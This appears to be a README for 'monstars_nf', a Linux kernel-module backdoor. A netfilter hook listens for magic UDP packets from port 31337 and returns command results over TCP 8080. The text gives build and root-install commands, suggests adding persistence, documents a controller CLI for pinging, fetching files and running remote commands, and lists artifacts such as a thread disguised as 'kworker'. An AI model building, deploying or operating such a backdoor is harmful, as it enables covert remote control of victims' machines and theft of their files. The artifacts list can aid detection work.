 # monstars netfilter

**monstars_nf** is a linux backdoor intended to be compatible with a wide range of kernel versions.

Once installed, the kernel module installs a netfilter hook to listen for "magic" UDP packets from source port `31337`. When it receives such a packet, it spawns a usermode task handler to parse the command data, process any commands, and send the results back to the listening controller.

The backdoor does not listen on a port or maintain a consistent usermode process; for the most part, the only active component is the kernel-mode worker thread.


## Building an Installer

To build the installer, you will need kernel headers for the version of linux you want to target. Depending on your build environment, this may be challening to configure.

Once your build environment is set up, however, use the Python script `build_monstars.py` to build an installer specific to your target environment. The following attributes are configurable:
 - kernel object name
 - target kernel version
 - debugging output

The configured installer will be placed in the `./export/` directory, and will be named `go-monstars_<kernel version>`.

**$ python3 build_monstars.py**
```
usage: build_monstars.py [-h] [-d]
                         [-v {3.11.0-12-generic,3.13.0-24-generic,4.4.0-21-generic,4.15.0-20-generic,5.15.0-56-generic}]
                         [-k KO_NAME]

Build a monstars_nf installer binary

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           build components with debug symbols
  -v {3.11.0-12-generic,3.13.0-24-generic,4.4.0-21-generic,4.15.0-20-generic,5.15.0-56-generic}, --kernel-ver {3.11.0-12-generic,3.13.0-24-generic,4.4.0-21-generic,4.15.0-20-generic,5.15.0-56-generic}
                        linux kernel version to build against
  -k KO_NAME, --ko-name KO_NAME
                        name to use for the kernel netfilter module
```


## Running the Installer

The installer binary requires one commandline argument: the desired path to the usermode executable component.
```
# go-monstars /home/zathras/.ssh/monstars
```

The installer must be run with `root` permissions to successfully insert the kernel module.

Once **monstars_nf** is installed, the installer can be either cleaned up or added to some form of persistence mechanism to ensure the backdoor survives a system restart.


## Sending Commands

The Python script `call_monstars.py` is a CLI interface for sending commands to an installed backdoor. Pass `-h` to the command line for more information on each of the commands.

**$ python3 call_monstars.py**
```
usage: call_monstars.py [-h] -i IP [--dest-port DEST_PORT] {ping,get,exec} ...

send it!

positional arguments:
  {ping,get,exec}       [supported commands]
    ping                ping a target
    get                 retrieve a file
    exec                run a system command

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IP address of host machine
  --dest-port DEST_PORT
                        destination port number
```


## Communications

When it receives a magic UDP packet, the backdoor sends its task result back to the sender on TCP port 8080.

The controller opens TCP port 8080 before sending the magic packet, and reports an error if no response is received after a short timeout.


## Artifacts

Once installed, the following artifacts are present on the system:
 - The userland task handler binary (name and path configurable)
 - The kernel module (name configurable) - it is out-of-band and therefore "taints" the kernel
 - The procfile `/proc/task`, which is used to send tasking data to the userland process from kernel mode
 - An active kthread named `kworker` (visible in `top`)
 - The installer binary (if left in place along with some means of persistence)
